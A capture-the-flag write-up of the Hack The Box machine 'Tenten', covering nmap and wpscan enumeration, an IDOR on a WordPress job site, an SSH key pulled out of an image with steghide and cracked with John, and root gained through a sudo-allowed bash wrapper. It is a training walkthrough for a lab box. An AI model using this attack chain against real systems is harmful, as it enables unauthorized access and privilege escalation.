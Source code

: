 # HTB - Tenten

#### Ip: 10.10.10.10
#### Name: Tenten
#### Rating: Medium

----------------------------------------------------------------------

![Tenten.png](../assets/tenten_assets/Tenten.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.10         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:42 CDT
Nmap scan report for 10.10.10.10
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -sC -sV -T4 10.10.10.10 -p 22,80     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:43 CDT
Nmap scan report for 10.10.10.10
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://tenten.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```

Based on these results lets go ahead and add tenten.htb to `/etc/hosts`.

Heading to the site we find it's running WordPress.

Lets kick off a wpscan to see if we can find any users:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ wpscan --url http://tenten.htb --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.10.10.10]
```

Cool, we've found one user named takis.

![takis.png](../assets/tenten_assets/takis.png)

Lets head back to the site to see what we can find.

![site.png](../assets/tenten_assets/site.png)

Clicking on the Job Listings link we see a job posting we can apply for:

![job.png](../assets/tenten_assets/job.png)

Clicking into the Apply Now button, I'm most interested in the fact that this job or application id is directly represented with an `/8`. 

![8.png](../assets/tenten_assets/8.png)

Playing around with this manually, I see this site has an IDOR vulnerabilty and I can access other materials just by changing the number or ID in the browser. 

### Exploitation

I manually tested this (probably would have been easier to just generate a number list and fuzz this in Burp or with Ffuff), until I reached `/13` which had an interesting attachment:

![13.png](../assets/tenten_assets/13.png)

We can fill out the appplication with test data and submit:

![hey.png](../assets/tenten_assets/hey.png)

Now that the aplication is sub,itted, we need to find out where the file ended up. This bit was tricky for me. I knew that standard WP files are loaded to `/wp-content/uploads/YEAR/MONTH/FILE` But was having a hard time finding it. I eventually checked when the box was created (May, 2017) and started fuzzing months in 2017. I eventually found our file at http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg where I find a creepy "hacker" guy:

![hacker.png](../assets/tenten_assets/hacker.png)

Not knowing exactly what to do with the image file, I downloaded it to my attacking machine and named it "creepy_hacker.jpg." Lets use exiftool to see if there is an steganography in play here, and something is embedded in the image file.

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ steghide extract -sf creepy_hacker.jpg                   
Enter passphrase: 
wrote extracted data to "id_rsa".
``` 

Whoa.. this is an id_rsa? 

Trying to use the key for user takis we see it's protected by a passphrase:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10   
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ED25519 key fingerprint is SHA256:5a3db7g5K/KVQU7u9yholvmJI7kp3pWZj0qtGz4Yr9Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password: 
```

We can use ssh2john to crack this:

![john.png](../assets/tenten_assets/john.png)

Nice, John was able to crack this easily.

We can now login as user takis:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

takis@tenten:~$ whoami && hostname
takis
tenten
```

And grab the user.txt flag:

![user_flag.png](../assets/tenten_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` on the box presents me with an interesting result:

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

I have no idea what this is, so I turned to Google and found lots of people who REALLY hate Linux for some reason:

![linux.png](../assets/tenten_assets/linux.png)

Not much help there..

Interesting, it appears to be a Bash script:

```text
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
So in theory we should just be able to run it with `sudo` and whatever command we pass will be executed with root permissions. Lets try it

```text
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# whoami
root
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! That worked!

Lets grab that final flag:

![root_flag.png](../assets/tenten_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------
